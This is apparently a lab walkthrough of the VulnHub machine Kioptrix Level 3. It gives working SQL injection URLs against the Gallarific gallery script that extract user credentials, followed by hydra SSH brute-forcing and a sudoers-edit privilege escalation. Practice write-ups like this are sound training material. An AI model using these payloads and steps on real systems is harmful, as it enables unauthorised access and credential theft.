





# VulnHub: Kioptrix Level 3

Kioptrix Level 3 is a comparatively challenging machine in comparison to Level 1 and 2. This machine focuses on completely different skillsets than on what the earlier levels did.

There are mainly two method to gain initial access to the machine. So, lets begin and check out both the methods.

## Enumeration

> Before starting, add an entry for `kioptrix3.com` in the `/etc/hosts` file.

As usual the first thing to do would be to run an `nmap` scan and check through the browser if some webpage is hosted over there. The results from `nmap` are like

```bash
┌──(kali㉿kali)-[~/Desktop/oscp/vulnhub/kioptrix_lv3]
└─$ nmap -sS -p- -T4 -oN open_ports 192.168.0.124
# Nmap 7.91 scan initiated Thu Apr 29 16:18:49 2021 as: nmap -sS -p- -T4 -oN open_ports 192.168.0.124
Nmap scan report for 192.168.0.124
Host is up (0.0038s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:14:57:63 (Oracle VirtualBox virtual NIC)

# Nmap done at Thu Apr 29 16:19:13 2021 -- 1 IP address (1 host up) scanned in 24.72 seconds

┌──(kali㉿kali)-[~/Desktop/oscp/vulnhub/kioptrix_lv3]
└─$ sudo nmap -sV -sC -O -p22,80, -T4 192.168.0.145                                                              1 ⨯
[sudo] password for kali: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-01 00:29 EDT
Nmap scan report for 192.168.0.145
Host is up (0.0028s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:e3:f6:dc:2e:22:5d:17:ac:46:02:39:ad:71:cb:49 (DSA)
|_  2048 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd (RSA)
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
|_http-title: Ligoat Security - Got Goat? Security ...
MAC Address: 08:00:27:DE:FD:55 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.45 seconds
                                                           
```

From the `nmap` scan, it can be seen that there are 2 ports open which are 22 and 80. We can now check the website that is hosted over port 80 as well.


We can explore the other two tabs as well.


On the "Blog" tab, we can see a post for welcoming a new lead programmer named "**loneferret**". This appears to be a username. So, we can note it.


On the third tab we can see a login page. We can try some basic SQLi but none of them appear to be working here.

As a part of web enumeration we can run a directory traversal attack on the target to check if some hidden directories are present on the server.

```bash
┌──(kali㉿kali)-[~/Desktop/oscp/vulnhub/kioptrix_lv3]
└─$ dirb http://kioptrix3.com                                                             

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sat May  1 00:51:45 2021
URL_BASE: http://kioptrix3.com/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://kioptrix3.com/ ----
==> DIRECTORY: http://kioptrix3.com/cache/                                                               ==> DIRECTORY: http://kioptrix3.com/core/                                                                  + http://kioptrix3.com/data (CODE:403|SIZE:324)                                                           + http://kioptrix3.com/favicon.ico (CODE:200|SIZE:23126)                                                 ==> DIRECTORY: http://kioptrix3.com/gallery/                                                             + http://kioptrix3.com/index.php (CODE:200|SIZE:1819)                                                     ==> DIRECTORY: http://kioptrix3.com/modules/                                                             ==> DIRECTORY: http://kioptrix3.com/phpmyadmin/                                                           + http://kioptrix3.com/server-status (CODE:403|SIZE:333)                                                 ==> DIRECTORY: http://kioptrix3.com/style/                                                                          
---- Entering directory: http://kioptrix3.com/cache/ ----
+ http://kioptrix3.com/cache/index.html (CODE:200|SIZE:1819)                                                        
---- Entering directory: http://kioptrix3.com/core/ ----
==> DIRECTORY: http://kioptrix3.com/core/controller/                                                     + http://kioptrix3.com/core/index.php (CODE:200|SIZE:0)                                                   ==> DIRECTORY: http://kioptrix3.com/core/lib/                                                             ==> DIRECTORY: http://kioptrix3.com/core/model/                                                           ==> DIRECTORY: http://kioptrix3.com/core/view/                                                                      
---- Entering directory: http://kioptrix3.com/gallery/ ----
+ http://kioptrix3.com/gallery/index.php (CODE:500|SIZE:5650)                                             ==> DIRECTORY: http://kioptrix3.com/gallery/photos/                                                       ==> DIRECTORY: http://kioptrix3.com/gallery/themes/                                                                 
---- Entering directory: http://kioptrix3.com/modules/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                         ---- Entering directory: http://kioptrix3.com/phpmyadmin/ ----
+ http://kioptrix3.com/phpmyadmin/favicon.ico (CODE:200|SIZE:18902)                                       + http://kioptrix3.com/phpmyadmin/index.php (CODE:200|SIZE:8136)                                         ==> DIRECTORY: http://kioptrix3.com/phpmyadmin/js/                                                       ==> DIRECTORY: http://kioptrix3.com/phpmyadmin/lang/                                                     + http://kioptrix3.com/phpmyadmin/libraries (CODE:403|SIZE:340)                                           + http://kioptrix3.com/phpmyadmin/phpinfo.php (CODE:200|SIZE:0)                                           ==> DIRECTORY: http://kioptrix3.com/phpmyadmin/scripts/                                                   ==> DIRECTORY: http://kioptrix3.com/phpmyadmin/themes/                                                              
---- Entering directory: http://kioptrix3.com/style/ ----
+ http://kioptrix3.com/style/admin.php (CODE:200|SIZE:356)                                               + http://kioptrix3.com/style/index.php (CODE:200|SIZE:0)                                                            
---- Entering directory: http://kioptrix3.com/core/controller/ ----
+ http://kioptrix3.com/core/controller/index.php (CODE:200|SIZE:0)                                                  
---- Entering directory: http://kioptrix3.com/core/lib/ ----
+ http://kioptrix3.com/core/lib/index.php (CODE:200|SIZE:0)                                                         
---- Entering directory: http://kioptrix3.com/core/model/ ----
+ http://kioptrix3.com/core/model/index.php (CODE:200|SIZE:0)                                                       
---- Entering directory: http://kioptrix3.com/core/view/ ----
+ http://kioptrix3.com/core/view/index.php (CODE:200|SIZE:0)                                                        
---- Entering directory: http://kioptrix3.com/gallery/photos/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                         ---- Entering directory: http://kioptrix3.com/gallery/themes/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                         ---- Entering directory: http://kioptrix3.com/phpmyadmin/js/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                         ---- Entering directory: http://kioptrix3.com/phpmyadmin/lang/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                         ---- Entering directory: http://kioptrix3.com/phpmyadmin/scripts/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                         ---- Entering directory: http://kioptrix3.com/phpmyadmin/themes/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Sat May  1 00:52:45 2021
DOWNLOADED: 46120 - FOUND: 17
```

It can be seen that multiple directories have been detected, so we can explore each one of them to look for anything that might be helpful for us to gain access to the machine.

From the detected directories, the `/gallery` directory appears to be helpful as it shows some images and when we look at its source-code, we can find that it is running on a application named "**Gallarific PHP Photo Script**". 



After some googling, we can figure out that "Gallarific" is susceptible to SQLi.  We can also find a python script using `searchsploit` which might be helpful to exploit this SQLi.

```
┌──(kali㉿kali)-[~/Desktop/oscp/vulnhub/kioptrix_lv3]
└─$ searchsploit gallarific                                                                       1 ⨯
-------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                      |  Path
-------------------------------------------------------------------- ---------------------------------
Gallarific - 'search.php?query' Cross-Site Scripting                | php/webapps/31369.txt
Gallarific - 'user.php' Arbirary Change Admin Information           | php/webapps/8796.html
Gallarific - Multiple Script Direct Request Authentication Bypass   | php/webapps/31370.txt
Gallarific 1.1 - '/gallery.php' Arbitrary Delete/Edit Category      | php/webapps/9421.txt
GALLARIFIC PHP Photo Gallery Script - 'gallery.php' SQL Injection   | php/webapps/15891.txt
-------------------------------------------------------------------- ---------------------------------
```

We can check out the last one i.e. `php/webapps/15891.txt`.

```
┌──(kali㉿kali)-[~/Desktop/oscp/vulnhub/kioptrix_lv3]
└─$ locate 15891.py | xargs -I{} cp {} .

┌──(kali㉿kali)-[~/Desktop/oscp/vulnhub/kioptrix_lv3]
└─$ python 15964.py -c -t 192.168.0.145 -i 1281005380 -d ""

	| -------------------------------------------- |
	| Lotus CMS v3.0 Remote Code Execution Exploit |
	| by mr_me - net-ninja.net ------------------- |

(+) Exploiting target @: 192.168.0.145
(+) Writing comment.. (-) Target connection failed, check your address

```

But appears that either this does not work or we are passing wrong arguments. But even after that we can try to exploit the vulnerability manually as mentioned in the exploit [here](https://www.exploit-db.com/exploits/15891).


Also, to double check we can enter `'` which should raise an error.


And we do get an error. So, we can use this to explore the content of the database.

## Gaining Access - Method 1

To obtain information about the database we can follow the following process:

1. Determine the number of columns

   ```
   http://kioptrix3.com/gallery/gallery.php?id=null%20order%20by%201-- 
   	--> No error returned
   http://kioptrix3.com/gallery/gallery.php?id=null%20order%20by%202--
   	--> No error returned
   http://kioptrix3.com/gallery/gallery.php?id=null%20order%20by%203--
   	--> No error returned
   http://kioptrix3.com/gallery/gallery.php?id=null%20order%20by%204--
   	--> No error returned
   http://kioptrix3.com/gallery/gallery.php?id=null%20order%20by%205--
   	--> No error returned
   http://kioptrix3.com/gallery/gallery.php?id=null%20order%20by%206--
   	--> No error returned
   http://kioptrix3.com/gallery/gallery.php?id=null%20order%20by%207--
   	--> Unknown column '7' in 'order clause'Could not select category
   ```

   This suggests that there are 6 columns that are being returned. So, we need to craft our `UNION` payloads in such a way that they return 6 columns.

2. Determine the column that contains text

   - Sending all `NULL` to verify there are 6 columns

     

     Note the error returned here: `You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ') order by dateuploaded desc limit 1' at line 1`

   - Sending `'a'` for each column to test which one can return text

     ```
     http://kioptrix3.com/gallery/gallery.php?id=null%20UNION%20SELECT%20%27a%27,%20NULL,%20NULL,%20NULL,%20NULL,%20NULL--
     	--> Unknown column 'a' in 'where clause'
     
     http://kioptrix3.com/gallery/gallery.php?id=null%20UNION%20SELECT%20NULL,%20%27A%27,%20NULL,%20NULL,%20NULL,%20NULL--
     	--> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ') order by dateuploaded desc limit 1' at line 1
     
     http://kioptrix3.com/gallery/gallery.php?id=null%20UNION%20SELECT%20NULL,%20NULL,%20%27A%27,%20NULL,%20NULL,%20NULL--
     	--> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ') order by dateuploaded desc limit 1' at line 1
     
     http://kioptrix3.com/gallery/gallery.php?id=null%20UNION%20SELECT%20NULL,%20NULL,%20NULL,%20%27A%27,%20NULL,%20NULL--
     	--> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ') order by dateuploaded desc limit 1' at line 1
     
     http://kioptrix3.com/gallery/gallery.php?id=null%20UNION%20SELECT%20NULL,%20NULL,%20NULL,%20NULL,%20%27A%27,%20NULL--
     	--> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ') order by dateuploaded desc limit 1' at line 1
     
     http://kioptrix3.com/gallery/gallery.php?id=null%20UNION%20SELECT%20NULL,%20NULL,%20NULL,%20NULL,%20NULL,%20%27A%27--
     	--> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ') order by dateuploaded desc limit 1' at line 1
     ```

     Only when the value for column 1 was replace by that of a text it gave a different error than that when all `NULL` values were passed which suggests that only column does not return text but all the other column return text value as they have the same error as in case of all `NULL`.

3. Obtaining the names of all the tables

   ```
   http://kioptrix3.com/gallery/gallery.php?id=null%20UNION%20SELECT%201,%20table_name,%203,%204,%205,%206%20%20FROM%20information_schema.tables--
   ```

   Here, because text is being returned in 2nd column we have placed `table_name` in place of the 2nd columns name. 

   The table `information_schema.tables` has entry for all the tables present in the database. Hence we are using the same to get list of all the table.

   

4. From the list of tables obtained from previous step, we can try to find a table that might contain some sensitive information. 

   One such table appears to be `dev_accounts`. 

5. The next step would be to determine the columns in `dev_accounts` table.

   ```
   http://kioptrix3.com/gallery/gallery.php?id=null%20UNION%20SELECT%201,%20column_name,%203,%204,%205,%206%20%20FROM%20information_schema.columns%20where%20table_name=%27dev_accounts%27--
   ```

   Here, we are retrieving the list of `column_name` from the table `information_schema.columns` where the `table_name='dev_accounts'`. The table `information_schema.columns` holds the details of all the columns in the database.

   

   Here, we can that there are 3 columns in the table `dev_accounts` . 

6. The next step would be to extract the data from the table `dev_accounts`.

   ```
   http://kioptrix3.com/gallery/gallery.php?id=null%20UNION%20SELECT%201,%20id,%20username,%20password,%205,%206%20%20FROM%20dev_accounts--
   ```

   

   We did obtain the data from the database but can't see any entry for "password" column. So, we can `concat` the contents of "username" and "password"columns and print the same in a single column as:

   ```
   http://kioptrix3.com/gallery/gallery.php?id=null%20UNION%20SELECT%201,%20id,%20concat(username,%20%22*%22,%20password)%20,4,%205,%206%20%20FROM%20dev_accounts--
   ```

   

And there we get the username along with their password hashes.

The next thing we need to do is simple crack these password hashes using [crackstation](https://crackstation.net/) and try to use them on the login page or for SSH.

After cracking the hashes, we get "**starwars**" as user loneferret's password and "**Mast3r**" as user dreg's password.

We can try these usernames and password on the login page. But none of the credentials work on the login page. So, we can try to login via SSH as well.

```
┌──(kali㉿kali)-[~/Desktop/oscp/vulnhub/kioptrix_lv3]
└─$ ssh dreg@192.168.0.145      
dreg@192.168.0.145's password: 
Linux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
dreg@Kioptrix3:~$ whoami
dreg
dreg@Kioptrix3:~$ id
uid=1001(dreg) gid=1001(dreg) groups=1001(dreg)
dreg@Kioptrix3:~$ sudo -l
[sudo] password for dreg: 
Sorry, user dreg may not run sudo on Kioptrix3.

```

When we try to login as user dreg, we do succeed but the issue is dreg can't run any commands with `sudo`. 

## Gaining Access - Method 2

As from the blog page, we saw that a suspected username was published over there which was "**loneferret**". So, we can try to run an SSH bruteforce attack to check if we can crack his password.

```
┌──(kali㉿kali)-[~/Desktop/oscp/vulnhub/kioptrix_lv3]
└─$ hydra -l loneferret -P /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt 192.168.0.124 ssh -t 4
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-04-30 03:01:44
[DATA] max 4 tasks per 1 server, overall 4 tasks, 10000 login tries (l:1/p:10000), ~2500 tries per task
[DATA] attacking ssh://192.168.0.124:22/
[STATUS] 52.00 tries/min, 52 tries in 00:01h, 9948 to do in 03:12h, 4 active
[22][ssh] host: 192.168.0.124   login: loneferret   password: starwars
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-04-30 03:03:20
```

And here we get the login credentials for the user "loneferret".

## Privilege Escalation

Also, as dreg does not have access to commands with `sudo` privilege we can try to login as "loneferret" via SSH or directly use the `su loneferret` command while being logged in as "dreg" and check if he can access commands with `sudo` privilege.

```bash
dreg@Kioptrix3:~$ su loneferret
Password: 
loneferret@Kioptrix3:/home/dreg$ whoami
loneferret
loneferret@Kioptrix3:/home/dreg$ id
uid=1000(loneferret) gid=100(users) groups=100(users)
loneferret@Kioptrix3:/home/dreg$ sudo -l
User loneferret may run the following commands on this host:
    (root) NOPASSWD: !/bin/su
    (root) NOPASSWD: /usr/local/bin/ht
```

It can be seen that "loneferret" can run the command `/usr/local/bin/ht` as `sudo` but can't run the command `/bin/su`. So, we need to check what this `/usr/local/bin/ht` command does exactly in order to determine some step that can be used for privilege escalation. 

```bash
loneferret@Kioptrix3:/home/dreg$ sudo /usr/local/bin/ht 
Error opening terminal: xterm-256color.
```

But when we try to access the binary it gives an error. And to resolve this error, we can change the `$TERM` value which should resolve this issue.

```bash
loneferret@Kioptrix3:/home/dreg$ export TERM=xterm
```

Now, we can again run the command `sudo /usr/local/bin/ht`, which would open an editor.


We, can try to open the `/etc/sudoers` file here and check if we can modify it. Because if it can be modified then we can remove the `!` in front of the `/bin/su` command which would enable us to run that command without any password.

To open a file, we can use the key `Alt + F`.



Now, all that needs to be done is remove the `!` before `/bin/su` and save the file using `Alt + F` and then selecting `Save`.

As we have modified the `/etc/sudoers` file, we can now directly use the command `sudo /bin/su` and get the `root` shell.

```bash
root@Kioptrix3:/home/dreg# whoami
root
root@Kioptrix3:/home/dreg# id
uid=0(root) gid=0(root) groups=0(root)
root@Kioptrix3:/home/dreg# cd /root/
root@Kioptrix3:~# ls -la
total 52
drwx------  5 root root  4096 2011-04-17 08:59 .
drwxr-xr-x 21 root root  4096 2011-04-11 16:54 ..
-rw-------  1 root root    56 2021-05-01 00:25 .bash_history
-rw-r--r--  1 root root  2227 2007-10-20 07:51 .bashrc
-rw-r--r--  1 root root  1327 2011-04-16 08:13 Congrats.txt
drwxr-xr-x 12 root root 12288 2011-04-16 07:26 ht-2.0.18
-rw-------  1 root root   963 2011-04-12 19:33 .mysql_history
-rw-------  1 root root   228 2011-04-18 11:09 .nano_history
-rw-r--r--  1 root root   141 2007-10-20 07:51 .profile
drwx------  2 root root  4096 2011-04-13 10:06 .ssh
drwxr-xr-x  3 root root  4096 2011-04-15 23:30 .subversion
root@Kioptrix3:~# cat Congrats.txt 
```

And with this we have got the access to the machine as `root`!

## Some Key Points to Take Away

1. Keep a track of all the credentials you obtain and try them at every possible place where you can login.
2. Always look for different different vulnerabilities associated with services/applications that are running on the target.

## Mindmap


## References

1. Kioptrix Level 1: https://www.vulnhub.com/entry/kioptrix-level-12-3,24/
2. CVE-2011-0519: https://www.exploit-db.com/exploits/15891
3. CrackStation: https://crackstation.net/